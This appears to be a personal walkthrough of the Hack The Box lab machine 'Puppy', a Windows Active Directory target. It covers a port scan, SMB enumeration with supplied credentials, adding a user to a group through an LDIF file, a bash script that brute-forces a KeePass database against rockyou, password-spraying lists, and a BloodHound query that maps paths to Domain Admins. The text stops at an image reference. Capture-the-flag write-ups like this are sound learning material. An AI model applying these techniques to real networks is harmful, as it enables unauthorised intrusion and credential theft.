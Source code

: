 # Puppy

## 📌 Box Info

- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)

creds

levi.james / KingofAkron2025!

53/tcp   open  domain        Simple DNS Plus
[88](Kerberos)/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 08:38:48Z)
[111]/tcp  open  [rpcbind](RPC)     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  2,3         2049/udp   nfs
|   100005  1,2,3       2049/udp   mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100024  1           2049/tcp   status
|_100024  1           2049/udp   status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!

IPC$
NETLOGON
SYSVOL


add.ldif
```
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=LEVI B. JAMES,OU=MANPOWER,DC=PUPPY,DC=HTB
```

```
ldapmodify -x -H ldap://10.10.11.70 -D "CN=LEVI B. JAMES,OU=MANPOWER,DC=puppy,DC=htb" -w 'KingofAkron2025!' -f add.ldif
```

```
net rpc group members "DEVELOPERS" -U "levi.james" -S 10.10.11.70
```

we check our perms again

```
smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!
```

we view dev

```
smbclient //10.10.11.70/DEV -U levi.james
```

brute-kdbx.sh
```bash
#!/bin/bash

DB="recovery.kdbx"
WORDLIST="/usr/share/wordlists/rockyou.txt"

echo "[*] Starting brute-force on $DB using $WORDLIST"

while IFS= read -r password; do
    echo "[*] Trying: $password"

    echo "$password" | keepassxc-cli db-info "$DB" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] SUCCESS! Password found: $password"
        exit 0
    fi
done < "$WORDLIST"

echo "[-] Brute-force finished. No valid password found."
```

keepassxc recovery.kdbx

enter liverpool

create our user file and password file

user
```
ant.edwards
adam.silver
jamie.williamson
samuel.blake
steve.tucker
```

password
```
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
HJKL2025!
```

revisit bloodhound

```
MATCH p=shortestPath((n {owned:true})-[:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GPLink|AddAllowedToAct|AllowedToAct|WriteAccountRestrictions|SQLAdmin|ReadGMSAPassword|HasSIDHistory|CanPSRemote|SyncLAPSPassword|DumpSMSAPassword|AZMGGrantRole|AZMGAddSecret|AZMGAddOwner|AZMGAddMember|AZMGGrantAppRoles|AZNodeResourceGroup|AZWebsiteContributor|AZLogicAppContributo|AZAutomationContributor|AZAKSContributor|AZAddMembers|AZAddOwner|AZAddSecret|AZAvereContributor|AZContains|AZContributor|AZExecuteCommand|AZGetCertificates|AZGetKeys|AZGetSecrets|AZGlobalAdmin|AZHasRole|AZManagedIdentity|AZMemberOf|AZOwns|AZPrivilegedAuthAdmin|AZPrivilegedRoleAdmin|AZResetPassword|AZUserAccessAdministrator|AZAppAdmin|AZCloudAppAdmin|AZRunsAs|AZKeyVaultContributor|AZVMAdminLogin|AZVMContributor|AZLogicAppContributor|AddSelf|WriteSPN|AddKeyCredentialLink|DCSync*1..]->(m:Group {name:"DOMAIN ADMINS@PUPPY.HTB"})) WHERE NOT n=m RETURN p
```

look to see chain from ant.edwards to domain admin

![[Pasted image 20250522011631.png]]
